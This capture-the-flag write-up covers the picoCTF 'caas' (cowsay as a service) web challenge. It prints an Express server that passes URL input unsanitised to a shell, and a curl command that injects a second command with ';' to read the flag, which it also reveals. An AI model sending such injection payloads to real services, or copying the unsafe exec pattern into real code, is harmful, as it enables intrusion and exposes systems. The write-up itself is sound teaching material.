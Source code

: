 # caas
Web, 150 points

## Description

> Now presenting cowsay as a service

A Javascript file was attached:

```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

## Solution

Visiting the attached website, we see the following page:

```
Cowsay as a Service
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```

Let's try it:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/test
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Indeed, looks like `cowsay` as a service.

According to the implementation, the code calls:

```javascript
exec(`/usr/games/cowsay ${req.params.message}`
```

So we can try to perform a command injection by sneaking in an additional command after ending the current one with a `;`.

```console
┌──(user@kali)-[/media/sf_CTFs/pico/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/Hello; grep -r pico"
 _______
< Hello >
 -------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
falg.txt:picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

